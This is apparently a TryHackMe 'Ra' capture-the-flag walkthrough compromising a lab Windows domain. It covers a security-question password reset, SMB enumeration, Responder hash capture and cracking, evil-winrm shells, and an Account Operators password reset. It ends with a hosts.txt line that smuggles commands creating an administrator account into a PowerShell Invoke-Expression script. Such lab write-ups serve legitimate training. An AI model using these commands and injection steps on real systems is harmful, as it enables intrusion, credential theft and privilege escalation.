

---
---

# THM - Ra

NMAP


 


- Add windcorp.thm and fire.windcorp.thm to /etc/hosts


- On the website there is a Reset password button


There is a question about your favourite pets name

And we can see that Lily is holding her dog

- Inspecting the picture we can see the dogs name - Sparky and Lily's username - **lilyle**


- Reset the password


- We can check if it worked using CME:

```bash
crackmapexec smb windcorp.thm -u lilyle -p ChangeMe#1234

```


- If it was wrong it would've shown:


- Run enum4linux again with credentials:

```bash
enum4linux -u windcorp.thm/lilyle -p ChangeMe#1234 -a 10.10.128.53

```


- Connect to shares:

```bash
smbclient //10.10.128.53/users -U windcorp.thm/lilyle%ChangeMe#1234

```


```bash
smbclient //10.10.128.53/Shared -U windcorp.thm/lilyle%ChangeMe#1234

```


- Looking at the files in the share. The files are for an app called Spark which is a client that talks to the Openfire backend

- Looking for vulnerabilities - Found: <https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md>
Which the creators of Ra made (so gotta be it)

- More Enum:


- Doing inspect network:


- **Openfire (xmpp) usersnames potentially**

Save in file and

```bash
cat users_xmpp_info| cut -d ":" -f 4 | cut -d "@" -f 1 > xmpp_users

```


- This spark app part, I had to do on the THM Attack box (dependency issues)

```bash
dpkg -i spark_2_8_3.deb

```


- Just type:

```bash
spark
```


- Login with:  
lilyle : ChangeMe#1234

Tick Login as invisible


- Tick these:


- Tried this Spark part for ages and keep getting different errors ie.


Moving on:

- Set up Responder:

```bash
sudo responder -I tun0

```
- Craft a message and send it to everyone in the Openfire users list, with the following in:

```text


```
- Got a hash for buse


- Save in file (hash) - **Make sure it's all on one line**

- Crack with john:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

```


- Or hashcat:

```bash
hashcat -m 5600 -a 0 hash /usr/share/wordlists/rockyou.txt

```



- Got credentials **buse : uzunLM+3131**

- Get shell with evil-winrm:

```bash
evil-winrm -i 10.10.103.165 -u buse -p uzunLM+3131

```


- Everything else in there is a rabbithole

- Suspicious folder in C:\\ that isn't part of the default Windows install (scripts)


- When we read the powershell script file


- Two important things:
It gets it's contents from C:\Users\brittanycr\hosts.txt

And it invokes Invoke-Expression

**\*\* Invoke-Expression cmdlet - runs any specified string as a command and returns the results to the console**

- We don't have rights to change or replace the ps1 script or the hosts.txt file in britannycr's directory

- Doing enumeration on the user we have:

```bash
whoami /all

```


- After checking all the groups - one stands out:
**Account Operators**


- With this we can try and change brittanycr's password:

```bash
net user brittanycr Password123! /domain

```


- We can connect straight to the Users folder through SMB:

```bash
smbclient //10.10.103.165/Users/ -U windcorp.thm/brittanycr%Password123!

```


- Create a new hosts.txt file with the following:

```bash
;net user tom Password123! /add;net localgroup Administrators tom /add

```
- The reverse shell scripts got stopped by Windows Defender

- Upload and replace file on SMB (wait 1min for the script to run)


- Verify with crackmapexec as well:

```bash
crackmapexec smb windcorp.thm -u tom -p "Password123\!"

```


- Use Evil-winrm:

```bash
evil-winrm -i 10.10.103.165 -u tom -p Password123!

cat flag3.txt

```